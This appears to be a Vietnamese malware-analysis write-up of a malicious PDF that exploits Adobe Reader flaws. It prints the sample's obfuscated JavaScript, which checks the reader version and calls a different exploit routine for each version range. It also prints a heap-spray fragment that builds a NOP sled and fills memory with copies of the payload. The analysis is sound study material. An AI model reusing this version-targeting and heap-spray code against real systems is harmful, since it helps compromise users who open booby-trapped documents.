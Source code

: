 ```javascript

function nO() {
        this.iR = false;
        var version = c.viewerVersion.toString();
        var zH = '';
        version = version.replace(/D/g, '');
        var varsion_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));
        if ((varsion_array[0] == 8) && (varsion_array[1] == 0) || (varsion_array[1] == 1 &&
varsion_array[2] < 3)) {
                cN();
        }
        this.wN = "";
        var aQ = new String("");
        if ((varsion_array[0] < 8) || (varsion_array[0] == 8 && varsion_array[1] < 2 && varsion_array[2] <
2)) {
                gX();
        }
        var vEdit = "";
        if ((varsion_array[0] < 9) || (varsion_array[0] == 9 && varsion_array[1] < 1)) {
                updateE();
        }
        var eH = function() {};
        var eSJ = new Function();
        cG();
        var vUpdate = false;
}
var basicU = new Date();
this.updateO = false;
nO();
var mUpdate = function() {};
```

Mã độc khai thác lỗ hổng PDF của pdf reader(thường là Adobe Reader) để thực thi lệnh trên máy nạn nhân. Cụ thể, nó sử dụng kỹ thuật heap spraying để nhúng shellcode chạy các chương trình như `calc.exe`, `cmd.exe`, `freecell.exe`, `notepad.exe`. Khi người dùng mở file pdf chứa mã này, shellcode sẽ được nạp vào bộ nhớ và có thể được thực thi mà không cần sự cho phép của người dùng

Heap spraying: Là kỹ thuật phân bổ bộ nhớ heap với một đoạn mã chứa shellcode lặp đi lặp lại để **tăng khả năng nó được thực thi** khi có lỗi xảy ra. Thường được kết hợp với nopsled (một chuỗi nhiều lệnh `NOP - no operation`được đặt trước shellcode trong bộ nhớ). nếu chương trình bị lỗi và nhảy đến một vị trí không chính xác, rất có thể nó sẽ rơi vào vùng NOP sled và trượt dần cho đến khi tới shellcode

Ví dụ trong script JS trên

```js
			nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
            while (nopsled.length < chunk_size)
                nopsled += nopsled;
            nopsled_len = chunk_size - (payload.length + 20);        
            nopsled = nopsled.substring(0, nopsled_len);
            heap_chunks = new Array();
            for (var i = 0 ; i < 2500 ; i++)
                heap_chunks[i] = nopsled + payload;
```
